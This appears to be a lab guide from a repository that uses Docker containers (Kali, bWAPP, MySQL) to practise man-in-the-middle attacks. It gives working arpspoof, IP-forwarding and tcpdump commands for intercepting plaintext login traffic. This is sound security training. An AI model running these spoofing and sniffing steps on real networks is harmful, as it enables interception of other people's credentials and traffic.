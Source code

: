 
---

### ✅ Objective

Simulate a **MitM attack** — for example, **ARP spoofing**, **HTTP sniffing**, or **DNS spoofing** — from the **Kali** container targeting traffic between `bwa` and `mysql`, or between `victim` and others.

---



## Why Use Docker for MITM Simulations?

Docker provides an ideal environment for simulating man-in-the-middle (MITM) attacks because it allows you to quickly create isolated, reproducible, and controlled network setups. By running multiple containers connected to a private Docker network, you can mimic real-world network interactions safely without risking your host system. Docker’s ability to assign static IPs and isolate network traffic makes it perfect for practicing ARP spoofing, HTTP sniffing, and other MITM techniques in a contained lab environment.

```pgsql
+-------------------------+      +--------------------+       +---------------------+
|    victim (172.28.0.30)  | <--> | kali (172.28.0.20)  | <--> |  bwa (172.28.0.10)   |
|    Debian container      |      | Kali Linux container|     |  bWAPP app container |
+-------------------------+      +--------------------+       +---------------------+
                                             |
                                             |
                                    +-------------------+
                                    |  mysql (172.28.0.5)  |
                                    |  MySQL DB container  |
                                    +-------------------+

- All containers connected via the 'mitm-net' Docker bridge network (subnet 172.28.0.0/24)
- Kali acts as MITM between victim and bwa/mysql
- Kali performs ARP spoofing to intercept traffic between victim and bwa/mysql




```
## 🛠️ Step-by-Step Guide

### 1. ✅ Start the Environment

Run the following in the same directory as your `docker-compose.yml`:

```bash
docker-compose up -d
```
![image](screen7.png)

![image](screen6.png)
---

### 2. ✅ Enter the Kali Container

```bash
docker exec -it kali bash
```



```bash
apt update
apt install -y dsniff tcpdump iproute2 iputils-ping net-tools
```

---

### 3. ✅ Enable IP Forwarding

Inside Kali:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



---

### 4. ✅ Perform ARP Spoofing


In Kali:

```bash
arpspoof -i eth0 -t 172.28.0.10 172.28.0.5
```
![image](screen1.png)
In another Kali terminal (or tmux pane):

```bash
arpspoof -i eth0 -t 172.28.0.5 172.28.0.10
```
![image](screen2.png)
Now you’re acting as the man in the middle.

---
### 5. ✅ RUn curl from the victim 

```bash

curl -d "login=bee&password=bug&security_level=0&form=submit" http://172.28.0.10/login.php    
```



### 6. ✅ Sniff the Traffic

Still in Kali, use `tcpdump` to monitor traffic:

```bash
tcpdump -i eth0 -A port 80        # HTTP traffic from bWAPP
```
![image](sceen5.png)


---

